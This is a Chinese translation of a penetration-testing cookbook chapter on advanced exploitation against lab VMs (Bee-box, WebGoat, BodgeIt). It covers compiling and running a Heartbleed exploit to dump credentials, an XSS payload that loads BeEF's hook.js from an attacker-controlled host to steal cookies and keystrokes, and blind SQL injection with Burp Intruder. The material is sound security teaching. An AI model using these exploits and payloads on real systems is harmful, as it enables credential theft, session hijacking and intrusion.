






# 第七章 高级利用

> 作者：Gilberto Najera-Gutierrez

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

在获得一些便利来发现和利用漏洞之后，我们现在转向可能需要更多努力的其他问题上。

这一章中，我们会搜索利用，编译程序，建立服务器以及破解密码，这可以让我们访问敏感信息，并执行服务器和应用中的特权功能。

## 7.1 在 Exploit-DB 中搜索 Web 服务器的漏洞

我们偶尔会在操作系统中， Web 应用所使用的库中，以及活动服务中发现服务器漏洞，或者可以在浏览器或 Web 代理中不能利用的安全问题。对于这些情况，我们可以使用 Metasploit 的利用集合，或者如果我们要找的不在 Metasploit 里面，我们可以在 Exploit-DB 中搜索它。

Kali 包含了 Exploit-DB 中的利用的离线副本。这个秘籍中，我们会使用 Kali 自带的命令来探索这个数据库并找到我们需要的利用。

### 操作步骤

1.  打开终端。

2.  输入下列命令：

    ```
    searchsploit heartbleed
    ```
    
    
    
3.  下一步是将利用复制到一个可以修改的地方，并编译它，像这样：

    ```
    mkdir heartbleed 
    cd heartbleed 
    cp /usr/share/exploitdb/platforms/multiple/remote/32998.c 
    ```
    
4.  通常，利用在第一行包含一些自身信息，以及如何使用它们，像这样：

    ```
    head -n 30 32998.c
    ```
    
    
    
5.  这里，利用使用 C 编写，所以我们需要将它编译来使用。编译命令在文件中显示（`cc -lssl -lssl3 -lcrypto heartbleed.c -o heartbleed`），它在 Kali 中不起作用，所以我们需要下面这个：

    ```
    gcc 32998.c -o heartbleed -Wl,-Bstatic -lssl -Wl,-Bdynamic -lssl3 -lcrypto
    ```
    
    
    
### 工作原理

`searchsploit `命令是安装在 Kali 中的 Exploit-DB 本地副本的接口。它用于在利用的标题和描述中搜索字符串，并显示结果。

利用存在于`/usr/share/exploitdb/platforms `目录中。`searchsploit `所展示的利用目录是它的相对路径，这就是我们在复制文件的时候使用完整路径的原因。利用文件以利用编号命名，在它们被提交到Exploit-DB 时分配。

编译步骤和在源代码中的推荐有些不同，因为 OpenSSL 库在基于 Debian 的发行版中，由于它们从源代码中构建的方式而缺少一些功能。

### 更多

监控利用的影响和效果极其重要，因为我们在实时系统中使用它。通常，Exploit-DB 中的利用都值得相信，即使它们通常需要一些调整来工作在特定的环境中，但是它们中有一些不像他们所说的那样。出于这个原因，在真实世界的渗透测试中使用之前，我们需要检查源代码并在我们的实验环境中测试它们。

### 另见

除了 Exploit-DB（`www.exploit-db.com`），也有一些其他站点可以用于搜索目标系统中的已知漏洞和利用：

+ http://www.securityfocus.com 
+ http://www.xssed.com/ 
+ https://packetstormsecurity.com/
+ http://seclists.org/fulldisclosure/
+ http://0day.today/

## 7.2 利用 Heartbleed 漏洞

这个秘籍中，我们会使用之前编译的 Heartbleed 利用来提取关于存在漏洞的 Bee-box 服务器的信息（`https://192.168.56.103:8443/ `）。

Bee-box 虚拟机可以从`https://www.vulnhub.com/ entry/bwapp-bee-box-v16,53/ `下载，那里也有安装指南。

### 准备

在上一个秘籍中，我们生成了 Heartbleed 利用的可执行文件。我们现在使用它来利用服务器的漏洞。

Heartbleed 是能够从服务器内存中提取信息的漏洞。在尝试利用来获得一些要提取的信息之前，可能需要浏览并向服务器的 8443 端口上的 HTTPS 页面发送数据。

### 操作步骤

1.  如果我们检查Bee-Box 的 8443 端口，我们会发现它存在 Heartbleed 漏洞。

    ```
    sslscan 192.168.56.103:8443
    ```
    
    
    
2.  现在，让我们开始利用漏洞。手心，我们访问包含可执行利用的文件夹：

    ```
    cd heartbleed
    ```
    
3.  之后我们检查程序的选项，像这样：

    ```
    ./heartbleed --help
    ```
    
    
    
4.  我们要尝试利用`192.168.56.103 `的 443 端口，获得最大的泄露并保存输出到文本文件`hb_test.txt`。

    ```
    ./heartbleed -s 192.168.56.103 -p 8443 -f hb_test.txt -t 1
    ```
    
    
    
5.  现在，如果我们检查`hb_test.txt`的内容：

    ```
    cat hb_test.txt
    ```
    
    
    
    我们的利用从 HTTPS 服务器中提取了信息，从这里我们可以看到会话 OD 甚至还有完整的登录请求，包括纯文本用户名和密码。
    
6.  如果我们想要跳过所有的二进制数据，只查看文件中的可读文本，使用`strings`命令：

    ```
    strings hb_test.txt
    ```
    
    
    
### 工作原理

我们在第四章中提到过，Heartbleed 漏洞允许攻击者从 OpenSSL 服务器内存中以纯文本读取信息，这意味着我们不需要解密甚至是解释任何客户端和服务端之间的通信，我们只需简单地向服务器请求内存中的东西，它会回应未加密的信息。

这个秘籍中，我们使用了可公共访问的利用来执行攻击，并获取到至少一个有效的会话 ID。有的时候还可能在 Heartbleed 的转储中找到密码或其它敏感信息。

最后，`strings`命令只展示文件中的字符串，跳过所有特殊字符，使其更加易读。

## 7.3 使用 BeEF 利用 XSS

BeEF，即浏览器利用框架，是个专注于客户端攻击向量的框架，特别是 Web 浏览器的攻击。

这个秘籍中，我们会利用 XSS 漏洞并使用 BeEF 来控制客户端浏览器。

### 准备

在开始之前，我们需要确保启动了 BeEF 服务，并且能够访问`http://127.0.0.1:3000/ui/panel`（使用`beef/beef`身份标识）。

1.  Kali 的默认 BeEF 服务不能工作。所以我们不能仅仅运行`beef-xss`让它启动。我们需要从安装目录中启动它，像这样：

    ```
    cd /usr/share/beef-xss/ 
    ./beef
    ```
    
    
    
2.  现在，浏览`http://127.0.0.1:3000/ui/panel`并使用`beef`作为用户名和密码。如果有效，我们就准备好了。

### 操作步骤

1.  BeEF 需要客户端浏览器调用`hook.js`文件，这用于将浏览器勾到我们的 BeEF 服务器，我们会使用一个存在 XSS 漏洞的应用来使用户调用它。为了尝试简单的 XSS 测试，浏览`http://192.168.56.102/bodgeit/search.jsp?q=%3Cscript%3Ealert%28 1%29%3C%2Fscript%3E`。

2.  这就是存在 XSS 漏洞的应用，所以现在我们需要修改脚本来调用`hook.js`。想象一下你就是受害者，你已经收到了包含` http://192.168.56.102/bodgeit/search.jsp?q=<script src="http://192.168.56.1:3000/hook.js"></script>`链接的邮件，你打算浏览器它来看看，像这样：

    
    
3.  现在，在 BeEF 面板中，攻击者会看到新的在线浏览器。

4.  攻击者的最佳步骤就是生成一些持久的，至少在用户浏览期间有效。访问攻击者浏览器的`Command`标签页，从这里选择`Persistence | Man-In-The-Browser`之后点击`Execute`。执行之后，选择`Module Results History`中的相关命令来检查结果，像这样：

    
    
5.  如果我们检查浏览器中的`Logs`标签页，我们可能会看到BeEF正在储存用户关于用户在浏览器中执行什么操作的信息，例如输入和点击，我们可以在这里看到：

    
    
6.  我们也可以通过使用`Commands | Browser | Hooked Domain | Get Cookie`来获取Cookie，像这样：

    
    
### 工作原理

这个秘籍中，我们使用了`script`标签的`src`属性来调用外部 JS 文件，这里是 BeEF的钩子。

`hook.js`文件与服务器通信，执行命令并返回响应，使攻击者能够看到它们。它在客户端的浏览器中不打印任何东西，所以受害者通常不会知道他的浏览器正在被攻击。

在让受害者执行我们的`hook`脚本之后，我们使用持久化模块  Man In The Browser 使浏览器在每次用户点击链接时，向相同域发送 AJAX 请求，所以这个请求维持了钩子，也加载了新的页面。

我么也会看到，BeEF 的日志记录了用户在页面上执行的每个步骤，我们能够从中获得用户名和密码信息。也可以用来获得远程的会话 Cookie，这可以让攻击者劫持受害者的会话。

### 更多

BeEF 拥有很多功能，从判断受害者所使用的浏览器类型，到利用已知漏洞和完全攻陷客户端系统。一些有趣的特性是：

+   `Social Engineering/Pretty Theft`：这是个社会工程工具，允许我们模拟登陆页面，就像常见的服务那样，例如 Fackbook、Linkedin、YouTube 以及其它。

+   ` Browser/Webcam and Browser/Webcam HTML5`：就像看上去那样，这两个模块能够恶意使用许可配置来激活受害者的摄像头，前者使用隐藏的 Flash `embed`标签，后者使用 HTML5 标签。

+   ` Exploits folder`：这包含一组特殊软件和情况的利用，它们中的一些利用服务和其它客户端浏览器。

+   `Browser/Hooked Domain/Get Stored Credentials`：这会尝试提取浏览器中储存的沦陷域的用户名和密码。

+   ` Use as Proxy`：如果我们右击被勾住的浏览器，我们会获得将其用作代理的选项。这将客户端浏览器用作代理，会给我们机会来探索受害者的内部网络。

BeEF 有许多其它攻击和模块，对渗透测试者非常实用，如果你想要了解更多，你可以查看官方的 Wiki：`https://github.com/ beefproject/beef/wiki`。

## 7.4 利用 SQL 盲注

在第六章中，我们利用了基于错误的 SQL 注入，现在我们使用 Burp Suite Intruder 作为主要工具来识别和利用 SQL 盲注。

### 准备

使浏览器将 Burp Suite 用作代理。

### 操作步骤

1.  浏览` http://192.168.56.102/WebGoat`，实用`webgoat`作为用户名和密码登录。

2.  点击` Start WebGoat`来访问 WebGoat 的主页。

3.  访问` Injection Flaws | Blind Numeric SQL Injection`。

4.  页面上说，练习的目标是找到给定字段在给定行中的值。我们的做事方式有一点不同，但是让我们看看它如何工作：将`101`作为账户号码，并点击`go`。

    
    
5.  现在尝试`1011`。

    
    
    到目前为止，我们看到了应用的行为，它仅仅告诉我们账户号码是否有效。
    
6.  让我们尝试注入，因为它查找号码，可能将它们用作整数。我们在测试中不使用单引号，所以提交`101 and 1=1`

    
    
7.  现在尝试`101 and 1=2`。

    
    
    看上去这里有个盲注，在有效的账户中注入恒真的条件结果。注入恒假的条件时会出现` Invalid account number`信息。
    
8.  在这个秘籍中，我们要获得连接到数据库的用户名称。所以我们首先需要知道用户名称的长度。让我们尝试一下，注入` 101 AND 1=char_length(current_user)`。

9.  下一步是在 BurpSuite 的代理中寻找最后一个请求，并将它发送到 intruder中，像这样：

    
    
0.  一旦发送到 intruder，我们可以清楚所有载荷标记，并在`AND`后面的`1`中添加新的，像这样：

    
    
1.  访问载荷部分并将`Payload type`设为`Numbers`。

2.  将`Payload type`设为`Sequential`，从 1 到 15，步长为 1。

    
    
3.  为了看看响应是否满足要求，访问` Intruder's options`，清除` GrepMatch`列表并添加` Invalid account number`，以及`Account number is valid`。

    
    
    我们需要在每个 intruder 的标签页中这样修改。

4.  为了使应用自动化，在`Redirections `中选择`Always`，并在`Redirections`中选择` Process cookies `。

    
    
    我们需要在每个 intruder 的标签页中这样修改。
    
5.  开始攻击

    
    
    它找到了号码为 2 的有效响应，这意味着用户名只含有两个字符长。
    
6.  现在，我们打算猜测用户名的每个字符，从第一个字符开始。在应用中提交下列代码：` 101 AND 1=(current_user LIKE 'b%')`。

    我们选择`b`作为第一个字符，让 BurpSuite 来获取请求，它应该为任意字符。
    
7.  同样，我们将请求发送给 intruder 并保留唯一的载荷标记`b`，它是名称的首单词。

    
    
8.  我们的载荷应该是含有所有小写字母和大写字母的列表（从 a 到 z 以及 A 到 Z）。

    
    
9.  在 intruder 中重复步骤 13 到 14 并开始攻击，像这样：

    
    
    我们的用户名的首字母是`S`。
    
0.  现在，我们需要找到名称的第二个单词，所以我们提交` 101 AND 1=(current_user='Sa')`到应用的文本框，并发送请求给 intruder。

1.  现在我们的载荷标记是`S`后面的`a`，换句话说，名称的第二个字符。

    
    
2.  重复步骤 18 到 19。在我们的例子中，我们只使用了俩表中的大写字母，因为如果第一个单词是大写的，两个单词就很可能都是大写的。

    
    
    名称的第二个单词是`A`，所以应用用于执行查询的数据库用户是`SA`。`SA`在 MSSQL 数据库中的意思是系统管理员。
    
### 工作原理

利用 SQL 盲注比起基于错误的注入花费更多精力和时间。在这个秘籍中我们看到了如何获取连接到数据库的用户名，而在第六章的 SQL 注入利用汇总，我们使用了一条命令来获取它。

我们可以使用字典来查看当前用户是否在名称列表中，但是如果名称不在列表中，会花费更多时间。

我们最开始识别了漏洞，所显示的信息告诉我们我们的请求是真是假。

一旦我们知道存在注入，并且正面的响应是什么样子，我们开始询问当前用户的长度，询问数据库，`1`是否是当前用户名的长度，是不是`2`，以此类推，知道我们发现了长度。知道何时停止用户名长度的搜索非常重要。

在找到长度之后，我们使用相同的技巧来发现首字母，` LIKE 'b%' `语句告诉 SQL 解释器是否首字母是`b`，剩下的并不重要，它可以是任何东西（`%`是用于多数 SQL 实现的通配符）。这里，我们看到了首字母是`S`。使用相同的技巧，我们就能发现第二个字符，并得到整个名称。

### 更多

这个攻击可以继续来获得 DBMS 的版本，之后使用厂商特定的命令来观察是否用户拥有管理权限。如果是的话，你可以提取所有用户名和密码，激活远程连接，以及除此之外的许多事情。

你可以尝试的事情之一就是使用 SQLMap 来利用这类型的注入。

还有另一种类型的盲注，它是基于时间的 SQL 盲注。其中我们没有可视化的线索，关于命令是否被执行（就像有效或者无效的账户信息）。反之，我们需要给数据库发送`sleep`命令，如果响应时间鲳鱼我们发送的时间，那么它就是真的响应。这类型的攻击非常缓慢，因为它有时需要等待 30 秒来获得仅仅一个字符。拥有类似 sqlninja 或者 SQLMap 的工具在这种情况下十分有用（`https://www.owasp.org/index.php/Blind_SQL_Injection`）。

